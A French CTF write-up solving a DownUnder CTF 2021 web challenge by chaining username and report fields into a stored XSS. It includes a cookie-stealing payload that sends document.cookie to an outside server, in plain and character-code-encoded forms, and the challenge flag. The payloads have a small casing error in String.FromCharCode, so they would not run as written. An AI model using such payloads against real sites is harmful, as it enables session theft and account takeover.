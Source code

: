 # Writeup for the challenge **_`x1337 Sk1d R3p0rt3r`_** from DownUnder CTF 2021
----

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`x1337 Sk1d R3p0rt3r`** |
| Category: | **`Web`** |
| Points: | **`232pts`**|
| Author: | **`Xesh`**|

## Description:
 Pesky sk1dz everywhere, they are being taken offline left right and centre! It looks like th3 sk1dz have been reporting eachother on this site, something something cyber justice?

---

- ## Solution

Pour ce challenge, on se retrouve tout d'abord sur une page d'accueil.

Après s'être inscrit et connecté on arrive sur le endpoint `/dashboard`

 ![Capture 1](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web1.png)

Plusieurs  possibilités s'offrent à nous:
###### **1.**  Créer un report
###### **2.** Changer son nom d'utilisateur

---

### Analyse du report
On tente d'abord de créer un report avec un texte aléatoire.

On se retrouve alors sur la page détaillant ce dernier.

 ![Capture 2](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web2.png)


Intéréssant, on peut voir un boutton `Send Report to Admin`, ce genre de feature est généralement présente lorsqu'il est question d'exploiter une faille **XSS**.

Avec cette info en tête essayons une injection classique dans le champs report.

```html
<script> alert('test') </script>
```

Rien de spécial le champs ne semble pas vulnérable au injection XSS.
 ![Capture 3](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web3.png)

---

### Analyse du nom d'utilisateur
Essayons maintenant d'insérer le payload dans le nom d'utilisateur.
 ![Capture 4](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web4.png)

Très bien, alors tentons un simple tag ```<script>```
 ![Capture 5](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web5.png)
 
Pas de soucis cette fois, vérifions donc une potentielle vulnérabilité XSS dans le report via le nom d'utilisateur.
 ![Capture 6](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web6.png)
 
Haha, il semble que cette fois notre injection ai marché, regardons le code source:

 ![Capture 7](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web7.png)

Plusieurs choses sont à noter:

- Notre balise `<script>` a bien été injecter dans le code **HTML**
- On retrouve nos anciens reports dans cette balise
- On peut voir que les charactère **`<`**, **`>`** et **`"`** sont échappés quand ils ont été inséré dans le report

Il semblerait que nous sommes face à une **XSS DOM-Based**, ce type de XSS consiste à exploiter une partie de code HTML pour pouvoir réussir à executer un payload

Jusqu'ici nous savons qu'il est seulement possible d'injecter des balises dans notre nom d'utilisateur mais que nous sommes limités à 10 caractères

Pour le code javascript, il est probablement possible d'utiliser le contenu du report à condition de réussir à enlever le code HTML présent et de ne pas utiliser de string

Commencons par le code HTML problématique

Il se situe à deux endroit: entre la balise `<script>` et le payload ainsi qu'entre le le payload et la balise `</script>`

Heureusement que le javascript permet d'ajouter des commentaires multilignes grâce à `/*` et `*/`

Placons alors ces commentaires aux endroit adequats, pour cela, nous allons devoir changer plusieurs fois de nom d'utilisateur
1. On change le nom d'utilisateur par `*/</script` (le dernier `>` est ajouté automatiquement gràce au code HTML du site) et on envoie le report avec une valeur quelqueconque
2. On change le nom d'utilisateur pour le remettre comme avant et on insère la deuxième partie du payload dans le report
Pour cette partie il est necessaire de trouver comment récupérer une string sans passer les guillements, par chance le javascript dispose de la fonction `String.fromCharCode()`" qui prend une ou plusieurs valeurs décimales et renvoie une string basée sur les codes ascii correspondant, dans notre exemple `'test' = String.fromCharCode(116, 101, 115, 116)`
Notre payload sera donc `*/alert(String.FromCharCode(116, 101, 115, 116)/*`
3. Pour finir on change une dernière fois notre nom d'utilisateur par `<script>/*` et on envoie un report


C'est y est, on a bien notre pop-up, le DOM est bien exploité et ressemble à cela

```html
<script>/*garbage html*/ alert(String.FromCharCode(116, 101, 115, 116) /*garbage html*/</script>
```

On passe maintenant à la vraie exploitation avec un payload visant les cookie:
```html
<script> window.location = 'https://my-server.com/?cookie=' + document.cookie </script>
```

Qui se transforme en
```html
<script> window.location = String.FromCharcode(104, 116, 116, 112, 115, 58, 47, 47, 109, 121, 45, 115, 101, 114, 118, 101, 114, 46, 99, 111, 109, 47, 63, 99, 111, 111, 107, 105, 101, 61) + document.cookie </script>
```

On à plus qu'à récupérer le cookie de l'admin et retourner sur le dashboard

Et bim, dans la note de l'admin se trouve le flag : **`DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}`**
